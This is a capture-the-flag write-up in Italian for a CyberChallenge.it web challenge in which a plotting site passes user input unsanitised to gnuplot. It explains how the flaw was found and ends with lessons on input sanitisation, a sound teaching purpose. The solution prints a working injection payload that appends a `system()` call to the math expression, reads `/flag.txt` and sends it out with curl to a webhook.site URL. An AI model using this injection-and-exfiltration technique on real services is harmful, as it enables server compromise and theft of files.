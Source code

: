 # Writeup: WS_1.04 - plottyboy

## Overview
- **Categoria**: Web  
- **Autore**: bonaff  
- **Difficoltà**: 494  
- **Stato**: Up (last checked: 7 minutes ago)  
- **URL**: [http://plottyboy.challs.cyberchallenge.it/](http://plottyboy.challs.cyberchallenge.it/)

## Descrizione 📝
La challenge propone un sito web che permette di inserire un’espressione matematica per tracciarne il grafico usando *gnuplot*. L’input viene quindi passato a gnuplot, ma senza adeguata sanitizzazione, permettendo di eseguire comandi arbitrari sul server.

## Soluzione 🎯

### 1. Individuazione della Vulnerabilità
Inserendo un’espressione come `x**2`, il sito genera correttamente un grafico di una parabola. Tuttavia, se introduciamo del codice che include un punto e virgola `;` seguito da comandi di sistema, potremmo eseguire code injection tramite gnuplot.

### 2. Exploit con `system()`
Proviamo a leggere il file `/flag.txt` inviando il contenuto a un nostro webhook:

```bash
x*2;system('curl https://webhook.site/7abedc77-d3eb-4ea9-8a94-f613d72088c8?flag=$(cat /flag.txt)');
```

- **`x*2;`**: parte dell’input interpretabile come espressione matematica, seguita da `;` per terminare l’istruzione di gnuplot.  
- **`system('curl ...')`**: chiamiamo `system()` dal contesto di gnuplot per eseguire un comando shell.  
- **`$(cat /flag.txt)`**: leggiamo il contenuto di `/flag.txt` e lo aggiungiamo alla richiesta GET verso il nostro webhook.

### 3. Ricezione della Flag
Sul nostro webhook (ad es. [Webhook.site](https://webhook.site/)) riceveremo una richiesta contenente la flag:

```
https://webhook.site/7abedc77-d3eb-4ea9-8a94-f613d72088c8?flag=CCITPl0ttyb01_4_A_sin3Boy
```

## Flag 🏁
```
CCIT{Pl0ttyb01_4_A_sin3Boy}
```

## Lezioni Apprese 📚
1. **Gnuplot Injection**: Le funzionalità di gnuplot possono eseguire comandi di sistema se non opportunamente filtrate.  
2. **Input Sanitization**: I parametri passati a comandi esterni (come gnuplot) devono essere convalidati per evitare exploit di injection.  
3. **Exfiltrazione Dati**: Usare `curl` verso un server controllato dall’attaccante è un metodo comune per estrarre informazioni sensibili.

## Tools Utilizzati 🛠️
- **Browser Web**: Per interagire con il sito e testare l’input malevolo.  
- **Webhook.site**: Per ricevere la flag esfiltrata.  
- **GNUPlot Knowledge**: Per capire la sintassi e come iniettare comandi.

---

*Writeup by Luca Crippa - Last Updated: 2024*
